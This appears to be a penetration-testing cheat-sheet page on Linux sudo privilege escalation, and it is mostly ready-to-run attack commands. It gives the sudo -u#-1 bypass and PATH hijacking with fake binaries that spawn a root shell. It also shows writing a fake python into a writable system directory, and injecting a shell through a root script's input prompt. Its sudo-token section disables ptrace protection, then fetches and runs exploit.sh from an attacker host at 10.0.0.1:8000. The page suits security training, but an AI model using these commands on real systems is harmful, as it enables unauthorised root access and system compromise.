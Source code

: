 ```yaml
---
title: Sudo Privilege Escalation
description: Sudo commands might be vulnerable to privilege escalation (PrivEsc).
tags:
    - Privilege Escalation
refs:
date: 2023-04-01
draft: false
---
```


## GTFOBins

[GTFOBins](https://gtfobins.github.io/) provides a wide variety of payloads to privilege escalation.  
So it's recommended to look for in there.

<br />

## Investigation

### Version

```sh
sudo --version
```

If the sudo **version <=1.28**, try the following command.

```sh
sudo -u#-1 /bin/bash
```

### As Another Users

```sh
sudo su root
sudo -u john whoami
# -s: run shell as target user
sudo -s
```

### Sudo commands (Sudoers)

```sh
sudo -l
sudo -ll

# Specify hostname
sudo -h <host-name> -l
# Execute via the hostname
sudo -h <host-name> /bin/bash
```

Also we might see from following files.

```sh
cat /etc/sudoers
cat /etc/sudoers.d/usersgroup
```

If we find the following result for sudoers,

```bash
(ALL, !root) NOPASSWD: /bin/bash
```

We might be able to get a root shell as follow.

```bash
sudo -u#-1 /bin/bash
```

<br />

## Command Forgery (NOPASSWD)

If you are allowed to execute some command, you can forge the contents of the command.  
First off, check the properties.

```sh
sudo -l
(root) NOPASSWD: somecmd
```

If you can confirm that it can be executed as root without password, create the same named command in the arbitrary folder in which you can write files.

```sh
# option 1
echo /bin/sh > /tmp/somecmd
```

Next, change the permission for allowing to execute it.  
And add the path to the environment.

```sh
chmod +x /tmp/somecmd
export PATH=/tmp:$PATH
```

Now execute the command as root.  


```sh
sudo somecmd
whoami
# root
```

<br />

## Command Forgery (SETENV, NOPASSWD)

If you found there is a **SETENV:** in sudoers, you can set the **PATH** when running the command.

```sh
sudo -l
(root) SETENV: NOPASSWD: somecmd
```

As the previous section, prepare the payload.

```sh
echo '/bin/bash -p' > /tmp/somecmd
chmod +x /tmp/somecmd
```

Now run the command as root with setting the PATH.

```sh
sudo PATH=/tmp:$PATH somecmd
whoami
```

<br />

## Command Path Hijacking

```bash
sudo -l

env_reset
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

(root) python /home/user/example.py
```

If we can execute some command as root but **`env_reset`** and **`secure_path`** are set, we cannot override the **PATH** environment variable.  
Instead we need to check if we have permission to write each path.

```bash
ls -al /usr/local/
ls -al /usr/
ls -al /
```

Assume we can write an arbitrary binary file under **`/usr/sbin`**, we can create a payload in there.  
For example, we create a **`python`** binary under **`/usr/sbin`**.

```bash
echo /bin/bash > /usr/sbin/python
chmod +x /usr/sbin/python
```

Then execute the sudo command.

```bash
sudo python /home/user/example.py
```

Now we should get a root shell.

<br />

## Shell in Prompt

```bash
#!/bin/bash

read -p "What's you name: "
```

If we found there is another user’s script which can be executed as root, you can input **\`/bin/bash -i\`** to get a shell as another user.

<br />

## Reuse Sudo Tokens

Reference: [https://book.hacktricks.xyz/linux-hardening/privilege-escalation#reusing-sudo-tokens](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#reusing-sudo-tokens)

If the current user executes some command using sudo, we might be able to escalate to root privilege.
Check if no restriction on ptrace.

```bash
cat /proc/sys/kernel/yama/ptrace_scope
0

# We can temporariliy set 0 if we have permissions.
echo 0 | sudo tee /proc/sys/kernel/yama/ptrace_scope
```

If the target system does not have **`gdb`** binary, we can download it.

```bash
# In local machine, download the debian package.
wget http://fi.archive.ubuntu.com/ubuntu/pool/main/g/gdb/gdb_9.1-0ubuntu1_amd64.deb -O gdb.deb
python3 -m http.server

# In remote machine, download the deb package and extract it.
wget http://10.0.0.1:8000/gdb.deb
dpkg -x gdb.deb ~
```

Next, prepare the exploit script from [the repo](https://github.com/nongiach/sudo_inject) and execute it.

```bash
# In local machine, download the shell script to exploit.
wget https://github.com/nongiach/sudo_inject/blob/master/exploit.sh
python3 -m http.server

# In remote machine, download it and execute.
wget http://10.0.0.1:8000/exploit.sh
sh exploit.sh
```

After that, we can spawn the root shell.

```bash
/tmp/activate_sudo_token
sudo su
```
